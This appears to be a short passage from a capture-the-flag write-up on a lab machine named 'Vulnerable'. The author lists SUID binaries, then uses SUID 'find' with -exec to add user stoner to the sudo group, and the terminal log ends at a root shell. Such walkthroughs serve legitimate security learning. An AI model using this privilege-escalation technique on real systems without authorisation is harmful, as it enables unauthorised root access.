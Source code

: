 ```
/usr/bin/gpasswd                                                                                                                                    
/usr/bin/newuidmap   
```

`find` can be used to privesc so, first I tried to give `/bin/bash` SUID but it failed then I put `stoner` in sudoers and then it got executed then switched to `stoner` again and then we can execute `bash` as `root` 

```


stoner@Vulnerable:/home/basterd$ find . -exec chmod+s /bin/bash
find: missing argument to `-exec'
stoner@Vulnerable:/home/basterd$ find . -exec usermod -aG sudo stoner \;
stoner@Vulnerable:/home/basterd$ sudo bash
[sudo] password for stoner: 
Sorry, try again.
[sudo] password for stoner: 
Sorry, user stoner is not allowed to execute '/bin/bash' as root on Vulnerable.
stoner@Vulnerable:/home/basterd$ whoami
stoner
stoner@Vulnerable:/home/basterd$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
stoner@Vulnerable:/home/basterd$ su stoner
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

stoner@Vulnerable:/home/basterd$ sudo bash
[sudo] password for stoner: 
root@Vulnerable:/home/basterd# 

```